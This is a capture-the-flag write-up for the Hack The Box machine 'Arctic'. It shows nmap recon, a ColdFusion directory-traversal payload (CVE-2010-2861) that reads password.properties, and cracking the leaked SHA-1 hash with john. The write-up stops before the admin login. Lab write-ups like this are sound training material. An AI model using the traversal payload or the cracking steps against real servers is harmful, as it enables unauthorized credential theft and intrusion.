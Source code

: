 # Box: Arctic
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A -T4 -v -p-  10.129.108.187```

```
Nmap scan report for 10.129.108.187
Host is up (0.19s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  http    JRun Web Server
|_http-title: Index of /
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.007 days (since Fri Sep 22 00:28:52 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   222.51 ms 10.10.14.1
2   222.63 ms 10.129.108.187

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 22 00:39:11 2023 -- 1 IP address (1 host up) scanned in 379.45 seconds
```
From our scan we have 3 open ports, we have a port 8500 that runs the http service. Our enumeration today will be focused on that port.



# Enumeration (Port 8500)

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/005c79fd-6322-4e10-b7f5-a42210cd5721)

Checking the directories, I found this login page

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c142b585-6539-46a6-a06d-4b0388083778)

From the above screenshot we can see that ```Adobe ColdFusion``` is being used on this webpage

Lets try using default passwords for the login page

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/336d2dab-2ba4-4afd-96ab-a08cd9404add)

oops, doesn't work🥲

Well, I found an exploit for this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/dac6ffd1-8704-45a4-8091-9f766a84137a)

So, it is vulnerabale to ```CVE-2010-2861```. You can get it [here](https://www.exploit-db.com/exploits/14641) 

Reading the exploit, I found this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7f0ea944-f3f0-4d95-90d6-999e9bd2b7b8)

This means we can exploit this webpage using directory transversal. Well, this is not a Linux box, I would have said we should try reading the ```/etc/passwd``` file😂. 

After a little research, I found out that ColdFusion 8 passwords are typically stored in an encrypted format in a configuration file called ```password.properties```. This file is used to store various ColdFusion passwords, including the administrator password and datasources passwords. The full path is typically ```[ColdFusion Installation Directory]/lib/password.properties```.

So we'll try to read the ```password.properties``` by navigating to the url ```?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b1a62ce8-2ebf-4770-99d3-9f40b7a9cd26)

We found an encrypted password hehe. Lets try to identify the hash using the ```hash-identifier``` command

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Arctic]                                                                                                                                              
└─$ hash-identifier                                                                                                                                                                             
   #########################################################################                                                                                                                    
   #     __  __                     __           ______    _____           #                                                                                                                    
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #                                                                                                                    
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #                                                                                                                    
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #                                                                                                                    
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #                                                                                                                    
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #                                                                                                                    
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))

Least Possible Hashs:
[+] Tiger-160
[+] Haval-160
[+] RipeMD-160
[+] SHA-1(HMAC)
[+] Tiger-160(HMAC)
[+] RipeMD-160(HMAC)
[+] Haval-160(HMAC)
[+] SHA-1(MaNGOS)
[+] SHA-1(MaNGOS2)
[+] sha1($pass.$salt)
[+] sha1($salt.$pass)
[+] sha1($salt.md5($pass))
[+] sha1($salt.md5($pass).$salt)
[+] sha1($salt.sha1($pass))
[+] sha1($salt.sha1($salt.sha1($pass)))
[+] sha1($username.$pass)
[+] sha1($username.$pass.$salt)
[+] sha1(md5($pass))
[+] sha1(md5($pass).$salt)
```
It's ```sha1``` cool. We can use john to crack this

command:```john hash.txt  --wordlist=/home/bl4ck4non/Documents/rockyou.txt  --format=RAW-sha1```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Arctic]
└─$ cat hash.txt
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Arctic]
└─$ john hash.txt  --wordlist=/home/bl4ck4non/Documents/rockyou.txt  --format=RAW-sha1
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
happyday         (?)     
1g 0:00:00:00 DONE (2023-09-24 11:35) 1.428g/s 7314p/s 7314c/s 7314C/s jodie..babygrl
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed.
```
We got the password to be ```happyday```. This means now we'll be able to login to the webpage.

Well lets do that


















